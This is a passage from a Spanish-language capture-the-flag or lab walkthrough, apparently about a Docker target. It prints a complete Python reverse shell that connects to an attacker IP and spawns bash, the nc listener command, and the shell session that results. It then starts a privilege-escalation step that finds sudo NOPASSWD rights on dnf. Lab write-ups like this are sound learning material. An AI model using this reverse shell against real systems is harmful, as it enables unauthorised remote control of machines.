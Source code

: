 Vemos que nos imprime lo siguiente:

```
Hola, primpi. Bienvenido al script.
```

Vemos que somos el usuario `primpi`, por lo que vamos a intentar a crearnos una `reverse shell`:

```python
import socket
import subprocess
import os

# Dirección IP y puerto del atacante
IP = "<IP>"  # Cambia por tu IP local o pública
PUERTO = <PORT>       # Cambia por el puerto que desees usar

# Crear el socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conectarse al atacante
s.connect((IP, PUERTO))

# Redirigir entrada, salida y errores a la conexión
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Lanzar un shell remoto
subprocess.call(["/bin/bash", "-i"])
```

Si antes de enviarlo nos ponemos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ahora lo enviamos, obtendremos una `reverse shell` una vez enviado el script:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 57762
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
[primpi@f4bf127f1128 /]$ whoami
whoami
primpi
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for primpi on f4bf127f1128:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/var/lib/snapd/snap/bin

User primpi may run the following commands on f4bf127f1128:
    (ALL) NOPASSWD: /usr/bin/dnf
```
